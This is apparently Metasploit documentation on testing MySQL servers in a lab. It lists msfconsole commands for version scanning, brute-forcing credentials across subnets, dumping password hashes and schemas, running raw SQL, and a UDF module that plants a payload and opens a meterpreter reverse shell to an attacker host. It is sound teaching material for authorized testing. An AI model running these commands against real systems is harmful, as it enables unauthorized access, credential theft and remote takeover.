 ## MySQL

MySQL is frequently found on port 3306/TCP. It is an open-source relational database management system.

Metasploit has support for multiple MySQL modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Dumping database information
- Executing arbitrary queries against the database
- Executing arbitrary SQL queries against the database
- Gaining reverse shells

When testing in a lab environment MySQL can either be installed on the host machine or within Docker:

```
docker run -it --rm -e MYSQL_ROOT_PASSWORD=' a b c p4$$w0rd' -p 3306:3306 mariadb:latest
```

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search mysql
```

### MySQL Enumeration

Enumerate version:

```
use auxiliary/scanner/mysql/mysql_version
run mysql://127.0.0.1
```

### MySQL Login / Bruteforce

If you have MySQL credentials to validate:

```
use auxiliary/scanner/mysql/mysql_login
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Re-using MySQL credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Brute-force host with known user and password list:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### MySQL Dumping

User and hash dump:

```
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Schema dump:

```
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

### MySQL Querying

Execute raw SQL:

```
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
```

### MySQL Reverse Shell

This module creates and enables a custom UDF (user defined function) on the target host via the `SELECT ... into DUMPFILE` method of binary injection. On default Microsoft Windows installations of MySQL (=< 5.5.9), directory write permissions not enforced, and the MySQL service runs as LocalSystem.

For this to work successfully:

1. `secure_file_priv`, a mysql setting, must be changed from the default to allow writing to MySQL's plugins folder
2. On Ubuntu, apparmor needs a bunch of exceptions added, or to be disabled. Equivalents on other linux systems most likely need the same
3. The MySQL plugin folder must be writable

NOTE: This module will leave a payload executable on the target system when the attack is finished, as well as the UDF DLL, and will define or redefine `sys_eval()` and `sys_exec()` functions. Usage:

```
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
```
